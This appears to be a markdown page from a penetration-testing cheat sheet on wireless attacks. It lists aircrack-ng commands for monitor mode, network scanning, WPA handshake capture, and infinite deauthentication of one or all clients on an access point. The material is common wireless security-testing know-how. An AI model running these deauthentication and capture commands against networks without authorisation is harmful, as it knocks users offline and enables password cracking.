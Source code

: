 ```yaml
---
layout: default
title: Wireless 
has_children: true
nav_order: 5
---
```


# Wireless
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

### Scanning
```
airmon-ng start <wlan if> - enable monitor mode
airodump-ng <wlan if mon> - scans for wireless networks
airodump-ng -c <channel no> --bssid <BSSID> -w <file> <wlan if mon>
```
### De-authenticate the client and capture the handshake
```
airodump-ng -c <channel no> --bssid <BSSID> -w <file> <wlan if mon>
airplay-ng --deauth 0 -a <AP MAC> -c <client MAC> <wlan if mon>

Options:
0 - number of pkts to send 0=infinite
```

### Deauthenticate all clients connected to AP
```
airplay-ng --deauth 0 -a <AP MAC> <wlan if mon>
```
